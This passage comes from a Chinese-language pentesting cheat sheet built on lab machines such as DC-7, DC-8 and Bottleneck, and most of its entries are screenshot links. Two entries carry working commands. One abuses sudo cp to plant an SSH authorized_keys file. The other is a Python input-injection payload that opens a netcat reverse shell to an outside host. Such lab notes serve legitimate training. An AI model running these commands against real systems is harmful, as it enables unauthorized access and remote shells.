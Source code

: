 #### 二十、SUDO权限cp，其他用户NOPASSWD（five86-1）

```
cp /home/douglas/.ssh/id_rsa.pub /tmp/authorized_keys
chmod 777 /tmp/authorized_keys
sudo -u jen /bin/cp /tmp/authorized_keys /home/jen/.ssh
ssh jen@127.0.0.1
```

#### 二十一、mysql无密码登录

![Snipaste_2020-02-10_14-02-46.png](https://i.loli.net/2020/02/10/prdnhMKD9TkSiHt.png)

#### 二十二、脏牛提权kernel 3.10（dpwwn-1）

![Snipaste_2020-02-10_14-07-26.png](https://i.loli.net/2020/02/10/K3grjbOPalGic5k.png)

#### 二十三、drupal后台getshell（DC-7）

php模块

![Snipaste_2020-02-10_14-12-08.png](https://i.loli.net/2020/02/10/4RuMm7BsS6KCTPG.png)

#### 二十四、wordpress wp-google-maps（hacker-fest）

![Snipaste_2020-02-10_14-14-18.png](https://i.loli.net/2020/02/10/PKJDRxytf4E9OQd.png)

#### 二十五、webmin	版本1.890，开启了ssl（hacker-fest）

![Snipaste_2020-02-10_14-07-26.png](https://i.loli.net/2020/02/10/K3grjbOPalGic5k.png)

#### 二十六、exim4，在4.87-4.91版本有一个本地提权漏洞（DC-8）

![Snipaste_2020-02-10_14-29-29.png](https://i.loli.net/2020/02/10/2YzxVQR5lngumvp.png)

![Snipaste_2020-02-10_14-30-24.png](https://i.loli.net/2020/02/10/UhbIGowQNS8Hj4J.png)

#### 二十七、drupal7后台getshell（DC-8）

![Snipaste_2020-02-10_14-27-30.png](https://i.loli.net/2020/02/10/hrENFPgQue9qmy8.png)

![Snipaste_2020-02-10_14-27-39.png](https://i.loli.net/2020/02/10/45ncJ8KVNg21w3k.png)

#### 二十八、python2 input 漏洞（Bottleneck）

![Snipaste_2020-02-10_14-46-18.png](https://i.loli.net/2020/02/10/i78n2PaEDkRfqVG.png)

```
/etc' and __import__("os").system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.101 1234 >/tmp/f") and'
```
